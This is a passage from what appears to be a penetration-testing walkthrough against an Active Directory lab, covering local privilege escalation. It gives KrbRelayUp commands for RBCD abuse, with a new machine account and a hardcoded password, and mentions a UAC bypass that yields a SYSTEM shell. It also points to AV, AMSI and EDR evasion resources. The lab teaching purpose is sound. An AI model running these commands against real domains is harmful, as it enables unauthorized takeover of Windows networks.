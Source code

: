- And just like the writeup made by @an0n_r0 we launch [SCMUACBypass.exe](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) by Tyranid and get a system shell

- Without AV or if you modify/obfuscate KrbRelayUp you can do the all things with the following commands:
```
.\KrbRelayUp.exe relay -Domain north.sevenkingdoms.local -CreateNewComputerAccount -ComputerName evilhost2$ -ComputerPassword pass@123<br>./KrbRelayUp.exe spawn -m rbcd -d north.sevenkingdoms.local -dc winterfell.north.sevenkingdoms.local -cn evilhost2$ -cp pass@123
```

    

#### With other methods

- KrbRelay can also be used to relay to ADCS or to add msDS-KeyCredentialLink and exploit with ShadowCredentials. All you need to know is on [this page](https://github.com/Dec0ne/KrbRelayUp), this is leave as an exercice to the reader.
- Start on braavos mssql and try to get a shell as admin :)

## Useful Links

- [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
- [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://github.com/Dec0ne/KrbRelayUp)](https://github.com/Dec0ne/KrbRelayUp)
- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)

Next time we will do a review on lateral movement technique inside an active directory in Part 9 :)